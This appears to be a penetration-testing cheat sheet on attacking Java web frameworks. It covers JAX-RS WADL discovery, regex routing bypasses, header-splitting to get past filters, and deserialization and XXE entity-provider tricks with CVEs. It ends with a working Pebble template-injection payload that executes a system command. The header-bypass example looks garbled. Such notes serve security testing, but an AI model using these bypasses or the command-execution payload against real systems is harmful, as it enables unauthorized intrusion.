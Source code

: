 ```yaml
---
title: Framework Attacks
category: Web Application
order: 110
---
```



> **JAX-RS** 

**Find the web application description language**

WADL is available via the following:
 * /applicaiton.wadl relative URI for JAX-RS and Jersey.  OR by sending OPTIONS request with applicaiton/vnd.sun.wadl+xml in Accept header
*  /application.xml relative URI for RESTEasy
* Apache CXF: _wadl=true parameter to URL

**URL matching ambiguites from regex:**

Example:
URI Patterns
/rest/{name}/show/{id:\\d+} is restricted
/rest/echo/{name:.+} is public

Request
/rest/echo/show/12345 accesses the restricted method


**Bypass blacklist filters for HTTP headers:**

* AccptHTapplication/jasonCRX-USER-ID: 67890
* JAX-RS uses the above string as two headers


**Selection confusion attack:**
@consumes defines the allowed content types
If resource method lacks @Consumes annotation or is too permissive (e.g., */*, application/*)
There is entity provider in CLASSPATH where isReadable method always (or mostly) returns True.

Useful entity providers:

Entity Provider | Media Type | Selection conditions | Weakness | CVE
----------------|------------|----------------------|----------|----
SerializableProvider (RESTEasy) | application/x-java-serialized-object | Entity parameter is serializable | Deser of Untrusted data | CVE-2016-7050
YamlProvider (RESTEasy) | text/yaml, text/x-yaml, application/x-yaml | Always selected | Deser of untrusted data | CVE-2016-9571
KryoMessageBody (Jersey) | application/x-kryo | Always selected | Deser of untrusted data| No CVE
AtomPojoProvider (apache cxf) | application/atom+xml | Always Selected | XXE | CVE-2016-8739

**Tools**

* Unsafe JAX-RS for Burp (https://github.com/0ang3el/Unsafe-JAX-RS-Burp)

> **Template Injection** 

** Java Pebble Example **

{% raw %}

{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
   
{% endraw %}
